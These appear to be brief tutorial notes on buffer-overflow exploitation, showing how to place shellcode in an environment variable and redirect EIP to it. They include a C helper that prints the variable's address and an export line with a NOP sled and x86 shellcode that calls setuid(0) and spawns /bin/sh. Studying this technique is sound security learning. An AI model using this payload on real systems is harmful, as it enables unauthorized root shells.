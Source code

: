 - We can store the shellcode in an environment variable and extract it in a program
- Then we can redirect eip to that place instead of using the buffer to store shellcode too
- example program to get env:
```c
//getenv.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    printf("0x%08x\n", getenv("SHELLCODE"));
    printf("0x%08x\n", (getenv("SHELLCODE") + strlen("SHELLCODE=")));
    return 0;
}
```
- Example to store in env:
```bash
export SHELLCODE=`python -c 'print "\x90"*24 + "\x31\xc0\x31\xdb\xb0\x17\xcd
\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3
\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff
\xff/bin/sh"'
```
